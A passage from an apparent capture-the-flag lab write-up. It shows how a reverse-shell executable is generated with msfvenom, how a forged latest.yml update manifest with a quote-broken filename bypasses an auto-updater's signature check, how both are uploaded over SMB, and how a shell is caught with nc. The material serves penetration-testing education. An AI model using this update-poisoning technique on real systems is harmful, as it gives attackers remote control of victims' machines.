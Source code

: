 
    oxdf@parrot$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.7 LPORT=443 -f exe -o rev.exe
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder specified, outputting raw payload
    Payload size: 460 bytes
    Final size of exe file: 7168 bytes
    Saved as: rev.exe



The `latest.yml` file needs a base64 SHA512, which is easy to calculate
using the example in the post:



    oxdf@parrot$ sha512sum rev.exe | cut -d ' ' -f1 | xxd -r -p | base64 -w0
    94WZYO7lW9xUcWqtf7bcuLtrgFk50zeHWuXLF143BKErDzqK0saJz550GS4py14J8wDP6cvMeZI5zruNYf8gOg==



All of that goes into the `latest.yml` file:



    version: 2.2.3
    files:
      - url: r'ev.exe
        sha512: 94WZYO7lW9xUcWqtf7bcuLtrgFk50zeHWuXLF143BKErDzqK0saJz550GS4py14J8wDP6cvMeZI5zruNYf8gOg==
        size: 7168     
    path: r'ev.exe
    sha512: 94WZYO7lW9xUcWqtf7bcuLtrgFk50zeHWuXLF143BKErDzqK0saJz550GS4py14J8wDP6cvMeZI5zruNYf8gOg==
    releaseDate: '2021-04-17T11:17:02.627Z'



The `url` is the binary name with a `'` in it to break validation. I set
the `size` to the correct size, but it doesn't matter. Same thing with
`releaseDate`, which can be any valid date string, or just omitted. One
thing that cost me a ton of time - the example in the post has invalid
spacing! `sha512` and `size` should be lined up with `url`, not with
`-`.

I'll upload the `latest.yml` and the binary to one of the client
folders, making sure to update the name of `rev.exe` to `r'ev.exe` to
match what's in the `latest.yml`:



    smb: \client1\> put latest.yml
    putting file latest.yml as \client1\latest.yml (0.7 kb/s) (average 8.1 kb/s)
    smb: \client1\> put rev.exe r'ev.exe
    putting file rev.exe as \client1\r'ev.exe (17.2 kb/s) (average 8.8 kb/s)



Within a minute, there's a shell at the listening `nc`:



    oxdf@parrot$ rlwrap nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.7] from (UNKNOWN) [10.10.10.237] 50128
    Microsoft Windows [Version 10.0.19042.906]
    (c) Microsoft Corporation. All rights reserved.
